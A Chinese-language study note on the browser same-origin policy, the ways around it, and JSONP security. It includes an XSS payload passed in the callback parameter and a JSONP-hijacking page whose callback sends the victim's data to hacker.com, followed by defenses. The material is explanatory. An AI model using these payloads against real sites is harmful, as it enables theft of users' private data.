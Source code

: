 [toc]

## 浏览器的同源策略
浏览器的同源策略的目的：使得不同源下的页面不能转发一些信息
同源三要素：协议、域名、端口，这三个都相同才能说是同源的
一些信息指的是：
1. 网页的cookie, LocalStorage, IndexDB
2. DOM (比如访问不同源的iframe的dom的宽度是无法获取的)
3. ajax请求不能发送

## 规避cookie限制
服务器设置cookie的domain属性，指定为一级域名比如.example.com，这样一级域名相同，二级域名下不同的网页也能相互读取cookie
浏览器也能设置document.domain来实现不同源的页面实现共享，也是基于相同的一级域名

## 规避LocalStorage, IndexDB限制

## 规避iframe限制
1. 如果只是一级域名不同，那么设置document.domain就能解决
2. 对于完全不同源如何通信
   1. 片段识别符，即改变iframe窗口的src来通信，比如http://example.com/x.html#fragment，页面是会变化的，iframe获取fragment的信息即可，
   2. window.name
   3. window.postMessage

## 规避ajax请求限制
1. JSONP
2. CORS
3. WebSocket

## JSONP
```html
<html>
<head>
    <title>test</title>
    <meta charset="utf-8">
    <script type="text/javascript">
    function hehehe(obj){
        alert(obj["password"]);
    }
    </script>
</head>
<body>
    <!-- 执行下面的语句，远程服务端返回的东西长这样： -->
    <!-- hehehe({"customername1":"user1","password":"12345678"}) -->
    <!-- 结果就是script里面的内容替换成 hehehe({"customername1":"user1","password":"12345678"}) -->
    <script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```
### 存在的安全问题
1. XSS跨站脚本攻击，其实就是js代码执行攻击，比如黑客构造一个类似这样的链接
```html
<script>http://127.0.0.1/getUsers.php?callback=<script>alert(/xss/)</script>
```
2. jsonp劫持，其是就是CSRF跨站点请求伪造攻击，即黑客利用用户的身份做一些事情
   黑客构造以下页面，诱导用户点击该页面的链接
```html
<html>
<head>
<title>test</title>
<meta charset="utf-8">
<script type="text/javascript">
// Jsonp的回调函数就是hacker写的，用来将隐私数据发送到黑客的服务器上
function hehehe(obj){
    var myForm = document.createElement("form");
    myForm.action="http://hacker.com/redirect.php";
    myForm.method = "GET";  
    for ( var k in obj) {  
        var myInput = document.createElement("input");  
        myInput.setAttribute("name", k);  
        myInput.setAttribute("value", obj[k]);  
        myForm.appendChild(myInput);  
    }  
    document.body.appendChild(myForm);  
    myForm.submit();  
    document.body.removeChild(myForm);
}
</script>
</head>
<body>
    <script type="text/javascript" src="http://localhost/callback.php?callback=hehehe"></script>
</body>
</html>
```

### 解决方案
1. 对于jsonp劫持，使用referrer，它用来告诉服务器我是从哪里来的，比如我在www.google.com里面点击了百度首页的连接，那么就告诉百度的服务器说，我是从www.google.com来的，服务端构造一个referrer白名单，从而把一些非法的来源给禁止掉
2. 对于jsonp劫持，在请求中加入token，然后服务端进行验证
3. 对于xss，设置response的输出类型为Content-type:application/json，过滤callback函数

>其实都逃不出xss、csrf的范围，xss的防御手段有3点：cookie设置HttpOnly，禁止javascript读取这一种cookie、输入过滤（xss filter）、输出转义（使用转义或编码的方式）。csrf的防御手段3点：设置验证码、referrer检查、token